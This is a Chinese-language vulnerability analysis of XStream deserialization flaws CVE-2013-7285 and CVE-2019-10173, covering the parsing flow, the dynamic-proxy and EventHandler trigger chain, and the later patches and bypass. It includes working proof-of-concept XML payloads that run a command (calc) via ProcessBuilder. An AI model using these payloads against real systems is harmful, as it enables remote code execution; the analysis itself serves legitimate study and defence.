

# Xstream CVE-2013-7285&CVE-2019-10173 反序列化
- [Xstream CVE-2013-7285&CVE-2019-10173 反序列化](#xstream-cve-2013-7285cve-2019-10173-反序列化)
  - [前置知识](#前置知识)
  - [Xstream解析流程](#xstream解析流程)
  - [CVE-2013-7285](#cve-2013-7285)
    - [DynamicProxyConverter](#dynamicproxyconverter)
    - [Stored-Set](#stored-set)
    - [tree-map](#tree-map)
  - [1.4.7 补丁](#147-补丁)
  - [CVE-2019-10173  ---> 1.4.10 Bypass](#cve-2019-10173------1410-bypass)
  - [1.4.11 补丁](#1411-补丁)
  - [参考](#参考)
## 前置知识

Xstream主要是从将java对象反序列化为XML或者XML反序列化为JAVA对象.

```java
import com.thoughtworks.xstream.XStream;

public class Codelab {

    public static class test{
        public int age;
        public String name;
        public void setAge(int age) {
            this.age = age;
        }
        public void setName(String name){
            this.name = name;
        }
        public int getAge(){
            return this.age;
        }
        public String getName(){
            return this.name;
        }
    }
    public static void main(String[] args) {
        XStream stream = new XStream();
        test test = new test();
        test.setAge(20);
        test.setName("tt");
        String xml = stream.toXML(test);
        System.out.println(xml);
        System.out.println("===============================");
        test test2 = (test)stream.fromXML(xml);
        System.out.println(test2);
    }
}
```

结果如下

```
<Codelab_-test>
  <age>20</age>
  <name>tt</name>
</Codelab_-test>
===============================
Codelab$test@527740a2

Process finished with exit code 0
```
## Xstream解析流程

直接来到`com/thoughtworks/xstream/core/TreeUnmarshaller.java`的`start`方法,在这之前的调用栈如下


主要是初始化一个Xpath的解析上下文`context`,注册了一些转换器到该`context`中,最后调用`context.start`方法开始解析xml数据,解析核心即根据标签来寻找内置的`convert`转换器,转换器再通过其`unmarshal`方法来获取对应的对象,然后再遍历子节点来获取对应的参数,最后设置好参数后返回.

## CVE-2013-7285

Xstream的转换器中有一个为`DynamicProxyConverter`的转换器,即支持将XML内的数据转换为动态代理类.而当程序调用了`dynamic-proxy`标签内的`interface`标签指向的接口类声明的方法时,就会通过动态代理机制代理访问`dynamic-proxy`标签内`handler`标签指定的类方法,利用这个机制,攻击者可以构造恶意的XML内容,即`dynamic-proxy`标签内的`handler`标签指向如`EventHandler`类这种可实现任意函数反射调用的恶意类,`interface`标签指向目标程序必然会调用的接口类方法,最后当攻击者从外部输入该恶意XML内容后即可触发反序列化漏洞,达到任意代码执行的目的.

**影响范围:**

1.4.x<=1.4.6 or 1.4.10

**POC:**
```java
      XStream stream = new XStream();
        String xml =                 "<sorted-set>\n" +
                "    <string>foo</string>\n" +
                "    <dynamic-proxy>\n" +
                "        <interface>java.lang.Comparable</interface>\n" +
                "        <handler class=\"java.beans.EventHandler\">\n" +
                "            <target class=\"java.lang.ProcessBuilder\">\n" +
                "                <command>\n" +
                "                    <string>cmd</string>\n" +
                "                    <string>/C</string>\n" +
                "                    <string>calc</string>\n" +
                "                </command>\n" +
                "            </target>\n" +
                "            <action>start</action>\n" +
                "        </handler>\n" +
                "    </dynamic-proxy>\n" +
                "</sorted-set>";

        stream.fromXML(xml);
```
该POC适用于1.4.5和1.4.6和1.4.10版本,因为低于1.4.x系列没有`Stored-set`标签.而<1.4.5以下时`sortedMapField`变量默认为null,而该变量决定了是否后续会进行调用指定接口的`populateTreeMap`方法,为null会导致无法进入该方法从而无无法调用接口触发动态代理.
### DynamicProxyConverter

该转换器的`unmarshal`方法关键如下,获取节点为`interface`标签的值所指定的接口(即java.lang.Comparable),将其放入一个数组中,后续再转化为Class对象数组用于创建动态代理,然后继续再遍历子节点,当遇到`handler`标签时,再通过`handler`标签获取动态代理类的调度处理器Handler(即java.beans.EventHandler).


然后通过`Proxy.newProxyInstance`创建一个代理.

在转化调度处理器为java对象时继续使用`context.convertAnother`,在`convertAnother`中在mapper中遍历获取到`EventHanlder`对应的转换器为`ReflectionConverter`即反射转换器,然后传入`convert`中进行转换.

在`convert`中进行了一个缓存操作,然后判断有无`reference`标签,无的话根据当前的引用(`/sorted-set/dynamic-proxy/handler`)调用父类的`convert`进行转换得到result.

在父类的`convert`里最后来到`instantiateNewInstance`中利用反射返回了我们指定的`EventHandler`class对象.

后续操作则是类似操作,继续根据子节调用转换器转换对应的class对象(如target指定的`java.lang.ProcessBuilder`)和调用对应转换器获取我们设置action和参数.
获取到参数之后会返回`AbstractReflectionConverter.java`中的`doUnmarshal`中再利用反射设置`ProcessBuilder`对应的参数,至此动态代理类则设置完毕,等待触发.

### Stored-Set
而代理类触发则需要对应的接口被调用,在poc中设置的接口为`java.lang.Comparable`,而触发该接口的点在于Poc中的`stored-set`标签,该标签的类型为`java.util.SortedSet`,即一个有序集合,而对应的转换器则为`TreeSetConverter`.
  
该`convert`会读取`stored-set`标签下的子节点,根据子节点对应的convert来反序列化其获取对应的对象,然后将其放入一个集合中,第一个元素即为我们指定的动态代理程序,而在第二个元素即我们写入的string字符串`foo`,放入集合时就会调用`putall`方法.

而在该方法中实现了`java.lang.Comparable`接口的方法compareTo用于将两个元素进行比较,从而触发之前的动态代理程序.

触发过程

### tree-map
根据触发的方式不同还有一种利用`tree-map`标签来触发代理程序,原理类似也是调用了`putall`方法触发,而该版本可以通杀1.4.6以下的1.4.x系列和1.4.10,该poc不受`sortedMapField`变量的限制.
```xml
<tree-map>
    <entry>
        <string>fookey</string>
        <string>foovalue</string>
    </entry>
    <entry>
        <dynamic-proxy>
            <interface>java.lang.Comparable</interface>
            <handler class="java.beans.EventHandler">
                <target class="java.lang.ProcessBuilder">
                    <command>
                        <string>calc.exe</string>
                    </command>
                </target>
                <action>start</action>
            </handler>
        </dynamic-proxy>
        <string>good</string>
    </entry>
</tree-map>
```
## 1.4.7 补丁
在1.4.6之后在`ReflectionConverter.canConvert()`中增加了黑名单过滤,对`EventHanlder`类进行了过滤.

## CVE-2019-10173  ---> 1.4.10 Bypass 
在1.4.10版本,该过滤被去掉了,因为官方添加了一个安全框架可以手动进行设置白名单和黑名单,但该框架默认并未开启,但之前的过滤代码却被删除了,导致了Bypass.

## 1.4.11 补丁
在1.4.11之后未了防止忘记使用安全框架,又继续内置了一个`InternalBlackList`黑名单类的一个转化器,会对`EventHandler`等类进行判断,检测成功则抛出异常.


## 参考

https://www.cnblogs.com/nice0e3/p/15046895.html  
https://xz.aliyun.com/t/10001  
https://www.mi1k7ea.com/2019/10/21/XStream%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/#0x02-XStream%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E